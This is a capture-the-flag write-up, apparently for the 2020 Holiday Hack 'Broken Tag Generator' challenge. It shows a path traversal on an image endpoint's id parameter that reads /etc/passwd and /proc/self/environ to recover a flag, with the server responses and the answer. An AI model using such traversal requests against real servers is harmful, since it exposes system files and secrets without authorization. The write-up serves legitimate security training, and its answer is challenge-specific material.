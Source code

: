 # 8) Broken Tag Generator
Dificulty: 4/5

Help Noel Boetie fix the Tag Generator (https://tag-generator.kringlecastle.com/) in the Wrapping Room. What value is in the environment variable GREETZ? Talk to Holly Evergreen in the kitchen for help with this.

ANSWER: JackFrostWasHere

## Finding the vulnerability
After requesting the URL https://tag-generator.kringlecastle.com/image the server sends a hint of the possible vulenrability that is visible in the browser but curl or burp give more information, where we can see this response use `501` http status code.
```
HTTP/1.1 501 Not Implemented
Server: nginx/1.14.2
Date: Mon, 21 Dec 2020 02:22:22 GMT
Content-Type: text/html;charset=utf-8
Content-Length: 80
Connection: close
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN

<h1>Something went wrong!</h1>

<p>Error in /app/lib/app.rb: ID is missing!</p>
```

Next request, lets attempt a LFI on the `id` parameter using a well known file `/etc/passwd`, the request failed but the error message is different, this time the server sends a `404` not found with the message route not found in `/app/lib/app.rb`.
```
HTTP/1.1 404 Not Found
Server: nginx/1.14.2
Date: Mon, 21 Dec 2020 02:24:33 GMT
Content-Type: image/jpeg
Content-Length: 81
Connection: close
X-Content-Type-Options: nosniff

<h1>Something went wrong!</h1>

<p>Error in /app/lib/app.rb: Route not found</p>
```

This means that the application may prepend a fixed string to our request so lets improve our previous request with a path traversal.
```
HTTP/1.1 200 OK
Server: nginx/1.14.2
Date: Mon, 21 Dec 2020 02:30:00 GMT
Content-Type: image/jpeg
Content-Length: 966
Connection: close
X-Content-Type-Options: nosniff
Strict-Transport-Security: max-age=15552000; includeSubDomains
X-XSS-Protection: 1; mode=block
X-Robots-Tag: none
X-Download-Options: noopen
X-Permitted-Cross-Domain-Policies: none

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
app:x:1000:1000:,,,:/home/app:/bin/bash
```

Now we know that it sucessfully retrieves files from the file system, the target is to obtain the value of the `GREETZ` environmental variable. To get all environmental variables of the runnin process we can send the request to https://tag-generator.kringlecastle.com/image?id=../../proc/self/environ
```
HTTP/1.1 200 OK
Server: nginx/1.14.2
Date: Mon, 21 Dec 2020 02:33:44 GMT
Content-Type: image/jpeg
Content-Length: 399
Connection: close
X-Content-Type-Options: nosniff
Strict-Transport-Security: max-age=15552000; includeSubDomains
X-XSS-Protection: 1; mode=block
X-Robots-Tag: none
X-Download-Options: noopen
X-Permitted-Cross-Domain-Policies: none

PATH=/usr/local/bundle/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin HOSTNAME=cbf2810b7573 RUBY_MAJOR=2.7 RUBY_VERSION=2.7.0 RUBY_DOWNLOAD_SHA256=27d350a52a02b53034ca0794efe518667d558f152656c2baaf08f3d0c8b02343 GEM_HOME=/usr/local/bundle BUNDLE_SILENCE_ROOT_WARNING=1 BUNDLE_APP_CONFIG=/usr/local/bundle APP_HOME=/app PORT=4141 HOST=0.0.0.0 GREETZ=JackFrostWasHere HOME=/home/app 
```

ANSWER: JackFrostWasHere